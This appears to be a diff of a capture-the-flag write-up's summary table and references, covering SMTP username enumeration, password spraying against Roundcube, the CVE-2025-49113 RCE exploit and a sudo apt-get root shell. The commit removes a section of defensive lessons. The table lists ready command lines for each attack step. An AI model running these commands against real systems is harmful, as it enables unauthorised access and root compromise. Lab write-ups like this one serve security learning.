

Before and after one commit to donmedfor/mybitbyte, a Markdown page: writeups/aftermatch/aftermatch.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/writeups/aftermatch/aftermatch.md
+++ b/writeups/aftermatch/aftermatch.md
@@ -335,25 +335,15 @@ cat /usr/user.txt
 |---|---|---|
 | Port scan | nmap | `nmap -p- -sV -sC -T4 <IP>` |
 | SMTP enum | smtp-user-enum | `smtp-user-enum -M VRFY -U names.txt -t <IP>` |
-| SMTP validate | swaks | `swaks --server <IP> --from a@b --to kali@kali` |
-| RCE | CVE-2025-49113.py | `python3 CVE-2025-49113.py <url> kali <pass> <cmd>` |
+| SMTP validate | cubeSpraying | `python3 cubeSpraying.py -u http://10.1.32.43/roundcube/ -U maria -P ../passwords.txt  -v` |
+| RCE | CVE-2025-49113.py | `python3 CVE-2025-49113.py <url> maria <pass> <cmd>` |
 | Privesc | sudo apt-get | `sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh` |
-
----
-
-## 🧠 Lessons Learned
-
-1. **VRFY is a silent information leak.** Disabling `VRFY` in Postfix (`disable_vrfy_command = yes`) prevents unauthenticated username enumeration.
-2. **Disable SMTP features you don't use.** `ETRN` should be off unless explicitly needed.
-3. **Roundcube must be patched.** CVE-2025-49113 requires only valid mail credentials — a single phished or reused password leads to full RCE.
-4. **Never grant `sudo` on package managers.** `apt-get`, `apt`, `dpkg`, and similar tools all support options (`Pre-Invoke`, `DPkg::Pre-Install-Pkgs`, etc.) that execute arbitrary commands as root. GTFOBins documents these thoroughly.
-5. **Negative results are data.** Ruling out relay and SMTP AUTH early is what pointed the assessment toward the web service.
 
 ---
 
 ## 📚 References
 
-- CVE-2025-49113 — Roundcube PHP object injection (authenticated RCE)
+- CVE-2025-49113 — Roundcube PHP object injection (authenticated RCE) `https://github.com/Zwique/CVE-2025-49113`
 - GTFOBins — `apt-get`: https://gtfobins.github.io/gtfobins/apt-get/
 - Postfix configuration hardening — `disable_vrfy_command`, `smtpd_relay_restrictions`
 - RFC 5321 — SMTP `VRFY` and `ETRN`
```
